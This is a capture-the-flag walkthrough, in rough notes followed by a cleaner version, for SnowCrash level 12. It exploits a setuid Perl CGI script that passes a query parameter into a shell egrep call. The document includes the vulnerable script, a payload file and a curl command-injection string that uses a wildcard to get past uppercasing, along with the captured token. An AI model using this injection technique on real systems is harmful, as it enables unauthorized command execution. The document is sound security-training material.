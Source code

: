 we we login into level12 we ran ls -all

we found

level12@SnowCrash:~$ ls -all
total 16
dr-xr-x---+ 1 level12 level12 120 Mar 5 2016 .
d--x--x--x 1 root users 340 Aug 30 2015 ..
-r-x------ 1 level12 level12 220 Apr 3 2012 .bash_logout
-r-x------ 1 level12 level12 3518 Aug 30 2015 .bashrc
-rwsr-sr-x+ 1 flag12 level12 464 Mar 5 2016 level12.pl
-r-x------ 1 level12 level12 675 Apr 3 2012 .profile

we can cat the level12.pl to understand the script

..level12@SnowCrash:~$ cat level12.pl
#!/usr/bin/env perl

# localhost:4646

use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
$nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
return 1;
}
}
return 0;
}

sub n {
if($\_[0] == 1) {
print("..");
} else {
print(".");
}
}

n(t(param("x"), param("y")));

we see that there are two functions n and t

t function: it expected two args , nn and xx , for the first arg (xx)m it converte any small ltter to capital and ,,,,

then it takes the xx and serach for aby alternative on /tmp/xs and redirect any error to stderorr

then if loop on each line in output

for n function ,,,

nnow since the script expect query params we can use curl like :

# SnowCrash Level12 Walkthrough

## Challenge Description

Exploit a Perl CGI script vulnerable to command injection through unsanitized user input.

## Initial Analysis

```bash
level12@SnowCrash:~$ ls -all
total 16
dr-xr-x---+ 1 level12 level12  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level12 level12  220 Apr  3  2012 .bash_logout
-r-x------  1 level12 level12 3518 Aug 30  2015 .bashrc
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
-r-x------  1 level12 level12  675 Apr  3  2012 .profile
```

## Understanding the Vulnerability

### 1. Code Analysis

```bash
cat level12.pl
level12@SnowCrash:~$ cat level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

#### Core Functionality

1. Web Interface: Listens on port 4646 as a CGI script
2. Input Parameters: Accepts x and y via HTTP GET/POST
3. Output: Returns "." (failure) or ".." (success)

#### Vulnerability Chain

1. Takes user inputs (x, y parameters)
2. Applies weak sanitization:
3. Converts to uppercase (test → TEST)
4. Truncates after first space (a b → A)
5. Dangerously injects it into a shell command:

```perl
`egrep "^$sanitized_input" /tmp/xd`
```

### Exploit Steps

1. Create Payload File

```bash
echo "getflag > /tmp/flag12" > /tmp/EXPLOIT
chmod +x /tmp/EXPLOIT
```

Important Note:
We used capital letters in the filename (EXPLOIT) because:

The script converts the input to uppercase

Without this, we'd get wrong paths like:

```text
/tmp/EXPLOIT → /TMP/EXPLOIT (invalid path)
```

We still face the directory path issue. To solve this problem we can simply use the wildcard \* character so it executes every file named EXPLOIT in all directory.

So, the final command will be:

```bash
level12@SnowCrash:~$ curl 'localhost:4646/?x=$(/*/EXPLOIT)'
..level12@SnowCrash:~$ cat /tmp/flag12
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

2. Verify execution

```bash
..level12@SnowCrash:~$ cat /tmp/flag12
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

## Security Lessons

1. **Never trust user input**: What goes in commands can hack your system
2. **Changing to uppercase ≠ security**: Hackers can still inject commands
3. **Wildcards (\*) are risky**: They bypass safety checks

## Next Steps

With the flag g1qKMiRpXf53AWhDaU7FEkczr, we can now proceed to Level13 of the SnowCrash challenge.
